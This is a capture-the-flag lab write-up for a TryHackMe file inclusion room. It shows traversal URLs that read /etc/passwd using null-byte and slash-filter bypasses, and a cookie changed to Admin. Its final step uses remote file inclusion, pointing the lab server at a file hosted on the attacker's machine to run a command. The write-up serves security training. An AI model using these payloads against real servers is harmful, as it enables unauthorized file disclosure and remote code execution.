 # File Inclusion

**Room Link:** [https://tryhackme.com/room/fileinc](https://tryhackme.com/room/fileinc)



**Give Lab #1 a try to read /etc/passwd. What would the request URI be?**

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

**In Lab #2, what is the directory specified in the include function?**

<figure><img src="../../.gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure>

**Give Lab #3 a try to read /etc/passwd. What is the request look like?**

Input field didn't work but we were able to bypass by entering our command in the web browser instead.

**URL:** hxxp://10.10.230.14/lab3.php?file=..//..//../../../etc/passwd%00&#x20;

<figure><img src="../../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

**Which function is causing the directory traversal in Lab #4?**

file\_get\_contents

<figure><img src="../../.gitbook/assets/image (34) (1).png" alt=""><figcaption></figcaption></figure>

**Try out Lab #6 and check what is the directory that has to be in the input field?**

THM-profile

<figure><img src="../../.gitbook/assets/image (49) (1).png" alt=""><figcaption></figcaption></figure>

**Try out Lab #6 and read /etc/os-release. What is the VERSION\_ID value**

Only worked in browser

hxxp://10.10.230.14/lab6.php?file=THM-profile//..//..//..//..//etc//os-release%00

<figure><img src="../../.gitbook/assets/image (14) (5).png" alt=""><figcaption></figcaption></figure>

**Capture Flag1 at /etc/flag1**

****

****

<figure><img src="../../.gitbook/assets/image (12) (6).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (17) (3).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (3).png" alt=""><figcaption></figcaption></figure>

**Capture Flag2 at /etc/flag2**

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

Change the value from Guest to Admin and we can bypass the error message above.

<figure><img src="../../.gitbook/assets/image (50) (1).png" alt=""><figcaption></figcaption></figure>

Change the value to the flag and we can see it on the page.

<figure><img src="../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

What it would look like in burp.

<figure><img src="../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

**Capture Flag3 at /etc/flag3**

Page is getting rid of our slashes

<figure><img src="../../.gitbook/assets/image (11) (7).png" alt=""><figcaption></figcaption></figure>

Changing to post and added extra slashed and null character at end.

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>



**Gain RCE in Lab #Playground /playground.php with RFI to execute the hostname command. What is the output?**

**Kali**

Created the following file to run the hostname command.

****![](<../../.gitbook/assets/image (14) (1).png>)****

**Kali**

Host the file

```
python2 -m SimpleHTTPServer 81
```

**Browser**

```
hxxp://10.10.230.14/playground.php?file=http://10.10.11.193:81/cmd.txt
```

<figure><img src="../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>
